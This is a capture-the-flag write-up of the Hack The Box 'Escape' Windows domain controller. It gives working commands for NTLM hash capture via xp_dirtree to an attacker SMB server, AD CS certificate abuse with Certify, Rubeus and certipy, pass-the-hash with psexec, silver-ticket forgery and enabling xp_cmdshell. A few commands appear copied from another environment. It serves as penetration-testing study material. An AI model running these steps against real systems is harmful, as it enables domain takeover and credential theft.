

# Enumeration
```
# Nmap 7.94SVN scan initiated Mon Feb 26 11:05:21 2024 as: nmap -vv --reason -Pn -T4 -sV -sC --version-all -A --osscan-guess -p- -oN /home/kali/Downloads/Escape/results/10.10.11.202/scans/_full_tcp_nmap.txt -oX /home/kali/Downloads/Escape/results/10.10.11.202/scans/xml/_full_tcp_nmap.xml 10.10.11.202
Nmap scan report for 10.10.11.202
Host is up, received user-set (0.046s latency).
Scanned at 2024-02-26 11:05:22 IST for 298s
Not shown: 65514 filtered tcp ports (no-response), 2 filtered tcp ports (host-unreach)
PORT      STATE SERVICE       REASON          VERSION
53/tcp    open  domain        syn-ack ttl 127 Simple DNS Plus
88/tcp    open  kerberos-sec  syn-ack ttl 127 Microsoft Windows Kerberos (server time: 2024-02-26 13:38:37Z)
135/tcp   open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
139/tcp   open  netbios-ssn   syn-ack ttl 127 Microsoft Windows netbios-ssn
389/tcp   open  ldap          syn-ack ttl 127 Microsoft Windows Active Directory LDAP (Domain: sequel.htb0., Site: Default-First-Site-Name)
| ssl-cert: Subject: 
| Subject Alternative Name: DNS:dc.sequel.htb, DNS:sequel.htb, DNS:sequel
| Issuer: commonName=sequel-DC-CA/domainComponent=sequel
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2024-01-18T23:03:57
| Not valid after:  2074-01-05T23:03:57
| MD5:   ee4c:c647:ebb2:c23e:f472:1d70:2880:9d82
| SHA-1: d88d:12ae:8a50:fcf1:2242:909e:3dd7:5cff:92d1:a480

|_ssl-date: 2024-02-26T13:40:19+00:00; +8h00m00s from scanner time.
445/tcp   open  microsoft-ds? syn-ack ttl 127
464/tcp   open  kpasswd5?     syn-ack ttl 127
593/tcp   open  ncacn_http    syn-ack ttl 127 Microsoft Windows RPC over HTTP 1.0
636/tcp   open  ssl/ldap      syn-ack ttl 127 Microsoft Windows Active Directory LDAP (Domain: sequel.htb0., Site: Default-First-Site-Name)
|_ssl-date: 2024-02-26T13:40:20+00:00; +8h00m00s from scanner time.
| ssl-cert: Subject: 
| Subject Alternative Name: DNS:dc.sequel.htb, DNS:sequel.htb, DNS:sequel
| Issuer: commonName=sequel-DC-CA/domainComponent=sequel
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2024-01-18T23:03:57
| Not valid after:  2074-01-05T23:03:57
| MD5:   ee4c:c647:ebb2:c23e:f472:1d70:2880:9d82
| SHA-1: d88d:12ae:8a50:fcf1:2242:909e:3dd7:5cff:92d1:a480

1433/tcp  open  ms-sql-s      syn-ack ttl 127 Microsoft SQL Server 2019 15.00.2000.00; RTM
|_ssl-date: 2024-02-26T13:40:19+00:00; +8h00m00s from scanner time.
| ms-sql-info: 
|   10.10.11.202:1433: 
|     Version: 
|       name: Microsoft SQL Server 2019 RTM
|       number: 15.00.2000.00
|       Product: Microsoft SQL Server 2019
|       Service pack level: RTM
|       Post-SP patches applied: false
|_    TCP port: 1433
| ms-sql-ntlm-info: 
|   10.10.11.202:1433: 
|     Target_Name: sequel
|     NetBIOS_Domain_Name: sequel
|     NetBIOS_Computer_Name: DC
|     DNS_Domain_Name: sequel.htb
|     DNS_Computer_Name: dc.sequel.htb
|     DNS_Tree_Name: sequel.htb
|_    Product_Version: 10.0.17763
| ssl-cert: Subject: commonName=SSL_Self_Signed_Fallback
| Issuer: commonName=SSL_Self_Signed_Fallback
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2024-02-26T13:35:15
| Not valid after:  2054-02-26T13:35:15
| MD5:   7d7e:5160:dfca:c53c:a50e:70e6:0865:760c
| SHA-1: e078:6d21:97cb:5115:0aba:971a:cf1a:7da8:75f2:3123

3268/tcp  open  ldap          syn-ack ttl 127 Microsoft Windows Active Directory LDAP (Domain: sequel.htb0., Site: Default-First-Site-Name)
|_ssl-date: 2024-02-26T13:40:19+00:00; +8h00m00s from scanner time.
| ssl-cert: Subject: 
| Subject Alternative Name: DNS:dc.sequel.htb, DNS:sequel.htb, DNS:sequel
| Issuer: commonName=sequel-DC-CA/domainComponent=sequel
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2024-01-18T23:03:57
| Not valid after:  2074-01-05T23:03:57
| MD5:   ee4c:c647:ebb2:c23e:f472:1d70:2880:9d82
| SHA-1: d88d:12ae:8a50:fcf1:2242:909e:3dd7:5cff:92d1:a480

3269/tcp  open  ssl/ldap      syn-ack ttl 127 Microsoft Windows Active Directory LDAP (Domain: sequel.htb0., Site: Default-First-Site-Name)
| ssl-cert: Subject: 
| Subject Alternative Name: DNS:dc.sequel.htb, DNS:sequel.htb, DNS:sequel
| Issuer: commonName=sequel-DC-CA/domainComponent=sequel
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2024-01-18T23:03:57
| Not valid after:  2074-01-05T23:03:57
| MD5:   ee4c:c647:ebb2:c23e:f472:1d70:2880:9d82
| SHA-1: d88d:12ae:8a50:fcf1:2242:909e:3dd7:5cff:92d1:a480

|_ssl-date: 2024-02-26T13:40:20+00:00; +8h00m00s from scanner time.
5985/tcp  open  http          syn-ack ttl 127 Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
9389/tcp  open  mc-nmf        syn-ack ttl 127 .NET Message Framing
49667/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49673/tcp open  ncacn_http    syn-ack ttl 127 Microsoft Windows RPC over HTTP 1.0
49674/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49686/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49732/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running (JUST GUESSING): Microsoft Windows 2019 (89%)
OS fingerprint not ideal because: Missing a closed TCP port so results incomplete
Aggressive OS guesses: Microsoft Windows Server 2019 (89%)

Network Distance: 2 hops
TCP Sequence Prediction: Difficulty=261 (Good luck!)
IP ID Sequence Generation: Incremental
Service Info: Host: DC; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| p2p-conficker: 
|   Checking for Conficker.C or higher...
|   Check 1 (port 63970/tcp): CLEAN (Timeout)
|   Check 2 (port 46396/tcp): CLEAN (Timeout)
|   Check 3 (port 50586/udp): CLEAN (Timeout)
|   Check 4 (port 22039/udp): CLEAN (Timeout)
|_  0/4 checks are positive: Host is CLEAN or ports are blocked
| smb2-time: 
|   date: 2024-02-26T13:39:41
|_  start_date: N/A
|_clock-skew: mean: 7h59m59s, deviation: 0s, median: 7h59m59s
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled and required

TRACEROUTE (using port 1433/tcp)
HOP RTT      ADDRESS
1   47.80 ms 10.10.14.1
2   47.97 ms 10.10.11.202

Read data files from: /usr/bin/../share/nmap
OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Mon Feb 26 11:10:20 2024 -- 1 IP address (1 host up) scanned in 299.01 seconds

```
We can see the certificate in browser by visiting https://10.10.11.202:3269 
This is a certificate authority and can be used for privilege escalation
Enumerating smb:
```
smbclient -L \\\\10.10.11.202
```

We find a public share with a pdf:

There are credentials in the pdf:

Now using mssql login with crackmapexec:
```
cme mssql 10.10.11.202 -u 'PublicUser' -p 'GuestUserCantWrite1'
```

That didn't work so trying local auth:
```
cme mssql 10.10.11.202 --local-auth -u 'PublicUser' -p 'GuestUserCantWrite1'
```
Now it works.
Trying to use mssql_priv module to check privileges it doesn't work:
```
cme mssql 10.10.11.202 --local-auth -u 'PublicUser' -p 'GuestUserCantWrite1' -M mssql_priv
```
Now using mssqlclient.py to get a mssql shell:
```
mssqlclient.py publicuser:GuestUserCantWrite1@sequel.htb
```

### Responder
- Target:
```
xp_dirtree \\10.10.14.22\fake\share
```
- Attacker:
```
sudo responder -I tun0
```
We get a hash:
### Impacket smbserver.py
Now using xp_dirtree and responder:
- Target:
	`xp_dirtree \\10.10.14.22\no_share`
- Attacker:
	`python3 smbserver.py nox_share . -smb2support`
We get a hash:


Using hashcat to crack:
`sql_svc: REGGIE1234ronnie`

Checking winrm access:
```
cme winrm 10.10.11.202 -u 'sql_svc' -p 'REGGIE1234ronnie'
```

We have winrm access
Trying to run commands from mssql with crackmapexec:
- Target
```
mssqlclient.py user:pass@sequel.htb
```
- Attacker:
```
mssqlclient.py user:pass@sequel.htb
```
Now getting a PS shell with winrm:
```
evil-winrm -i 10.10.11.202 -u sql_svc -p REGGIE1234ronnie
```

Now we know that this box has a certificate authority(CA):
So using [certify.exe](https://github.com/r3motecontrol/Ghostpack-CompiledBinaries)
```
.\Certify.exe find /vulnerable
```

Found the password for Ryan.Cooper from SQL logs:

Checking with cme if it is valid:
```
cme smb 10.10.11.202 -u ryan.cooper -p NuclearMosquito3 --shares
```

Checking with winrm:
```
cme winrm 10.10.11.202 -u ryan.cooper -p NuclearMosquito3
```

Now using winrm to get a shell and using certify.exe:

Now exploiting this vulnerability:
`Certify.exe request /ca:dc.theshire.local\theshire-DC-CA /template:VulnTemplate /altname:localadmin`
We get back a certificate. Saving it in cert.pem and executing:
`openssl pkcs12 -in cert.pem -keyex -CSP "Microsoft Enhanced Cryptographic Provider v1.0" -export -out cert.pfx`
Now we get a certificate cert.pfx

Trying to use the keys as is on evil-winrm.
`evil-winrm -S -c public.pem -k private.pem -i sequel.htb`
But it doesn't connect as port 5986 which is used for SSL is not open. Checked with:
`nc -zv 10.10.11.202 5986`

Now we gotta use Rubeus:
Now uploading the cert.pfx to the target:
`.\Rubeus.exe asktgt /user:administrator /certificate:C:\programdata\cert.pfx`
Now we get the ticket

Now to get the NTLM hashes:
`.\Rubeus.exe asktgt /user:administrator /certificate:C:\programdata\cert.pfx /getcredentials`
Now getting shell with psexec:
`psexec.py -hashes A52F78E4C751E5F5E17E1E9F3E58F4EE:A52F78E4C751E5F5E17E1E9F3E58F4EE administrator@10.10.11.202`

# Alternative way
`certipy-ad find -u ryan.cooper@sequel.htb -p NuclearMosquito3 -text -stdout -vulnerable`
Then
`certipy-ad req  -u ryan.cooper@sequel.htb -p NuclearMosquito3 -upn administrator@sequel.htb -ca sequel-DC-CA -template UserAuthentication`
Now we get the certificate

Now to get TGT:
`certipy-ad auth -pfx administrator.pfx`

# Silver Ticket
To get a silver ticket we need the NTLM hash of the sql_svc account but we already have the password so to generate NTLM hash:
In Python3;
```
import hashlib
hashlib.new('md4','REGGIE1234ronnie'.encode('utf-16le')).digest().hex()
```
Then we get the NTLM hash:
`1443ec19da4dac4ffc953bca1b57b4cf`
To get SID do `get-addomain` in evil-winrm powershell:

S-1-5-21-4078382237-1492182817-2568127209

Now running ticketer to get the ticket:
`ticketer.py -nthash 1443ec19da4dac4ffc953bca1b57b4cf -domain-sid S-1-5-21-4078382237-1492182817-2568127209 -domain sequel.htb administrator`

or
`ticketer.py -nthash 1443ec19da4dac4ffc953bca1b57b4cf -domain-sid S-1-5-21-4078382237-1492182817-2568127209 -domain sequel.htb -spn TotesLegit/dc.sequel.htb administrator`

Now we have the ccache. Using it to access mssql:
`KRB5CCNAME=administrator.ccache mssqlclient.py -k administrator@dc.sequel.htb`

**Note** : Don't forget to set the time with ntpdate
Now we can rn `enable_xp_cmdshell`
